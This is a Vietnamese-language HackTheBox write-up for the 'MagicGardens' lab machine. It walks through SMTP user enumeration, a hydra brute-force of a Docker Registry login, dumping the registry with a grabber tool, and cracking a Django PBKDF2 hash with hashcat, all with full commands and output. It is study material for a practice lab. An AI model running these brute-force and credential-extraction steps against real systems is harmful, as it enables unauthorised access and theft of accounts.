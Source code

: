 ```yaml
---
title: "MagicGardens"
date: 2024-05-23 23:38:00 +0700
categories: [hackthebox]
tags: [hackthebox, web]
authors: [toan]
toc: true
---
```

## Introduction
Machine thuộc sessons 5, thuộc vào level cực khó, Linux :>. Trong bài này có thể khai thác lổ hỏng qua port (5000) - Docker Registry -> reverse shell -> khai thác firefox debug đang chạy dưới quyền root -> root flag. User flag thì chưa biết làm :>

## Recons
Đầu tiên cần nhận diện thứ gì ở mục tiêu
![image.png](https://i.postimg.cc/YSxRzCS2/image.png)
Mình đã test trên port 80, scan dir, vhost đủ kiểu. có 1 dir đáng ngờ `/admin`, nó đang dùng django CMS, nhưng các PoC hay CVE ko tác dụng với nó. Chuyển sang smtp_enum để tìm user.
```shell
-> msfconsole
msf6 > search smtp_enum

Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/smtp/smtp_enum                   normal  No     SMTP User Enumeration Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_enum

msf6 > use 0
msf6 auxiliary(scanner/smtp/smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS                                                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      25                                                             yes       The target port (TCP)
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.14.18
RHOSTS => 10.10.14.18
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/wordlists/seclists/Usernames/Names/names.txt
USER_FILE => /usr/share/wordlists/seclists/Usernames/Names/names.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.14.18:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.11.9
RHOSTS => 10.10.11.9
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.11.9:25         - 10.10.11.9:25 Banner: 220 magicgardens.magicgardens.htb ESMTP Postfix (Debian/GNU)
```
Sau scan xong bạn sẽ thấy `alex`.
## Exploit
[5000-pentesting-docker-registry](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry)
Bạn có thể đọc nó. khi test req lên port 5000 ta thấy docker yêu cầu xác thực, tiến hành bruteforce nó với name là `alex`.

```shell
➜  ~ hydra -l alex -P /usr/share/wordlists/rockyou.txt 10.10.11.9  -s 5000 https-get /v2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 23:47:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-gets://10.10.11.9:5000/v2/
[5000][http-get] host: 10.10.11.9   login: alex   password: diamonds
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 23:47:36
➜  ~
```
`alex:diamonds`<br>
rồi xem docker tại port 5000 thôi :>
```shell
➜  ~ curl -k -u alex:diamonds  https://magicgardens.htb:5000/v2/_catalog
{"repositories":["magicgardens.htb"]}
➜  ~ cd payload/DockerRegistryGrabber
➜  DockerRegistryGrabber git:(main) ✗ ls
README.md  deploy.sh  deploybasicauth.sh  drg.py  magicgardens.htb  pyproject.toml  requirements.txt  screenshot
➜  DockerRegistryGrabber git:(main) ✗ python drg.py https://magicgardens.htb:5000 -U alex -P diamonds --list
Dunno what happend but something fucked up Failed to parse: https://magicgardens.htb:5000:5000/v2/_catalog
➜  DockerRegistryGrabber git:(main) ✗ python drg.py https://magicgardens.htb -U alex -P diamonds --list
[+] magicgardens.htb
➜  DockerRegistryGrabber git:(main) ✗ python drg.py https://magicgardens.htb -U alex -P diamonds --dump_all
```
dump hết thôi :>> rồi vào check. Tìm từng file trong đấy sẽ thấy có file db `/usr/src/app/db.sqlite3`
```shell
➜  magicgardens.htb git:(main) ✗ sqlite3 480311b89e2d843d87e76ea44ffbb212643ba89c1e147f0d0ff800b5fe8964fb/usr/src/app/db.sqlite3
SQLite version 3.44.0 2023-11-01 11:23:50
Enter ".help" for usage hints.
sqlite> .talbes
Error: unknown command or invalid arguments:  "talbes". Enter ".help" for help
sqlite> .tables
auth_group                  django_content_type
auth_group_permissions      django_migrations
auth_permission             django_session
auth_user                   store_order
auth_user_groups            store_product
auth_user_user_permissions  store_storemessage
django_admin_log            store_storeuser
sqlite> select * from auth_user
   ...> ;
2|pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=|2023-06-06 17:34:56.520750|1|morty|||1|1|2023-06-06 17:32:24|
sqlite>
```
password của morty bị hash r -> đây là Django (PBKDF2-SHA256), thử crack nó.
```shell
➜  ~ hashcat -m 10000 -a 0 hash /usr/share/wordlists/rockyou.txt --show
pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=:jonasbrothers
➜  ~ cat hash
pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=
```
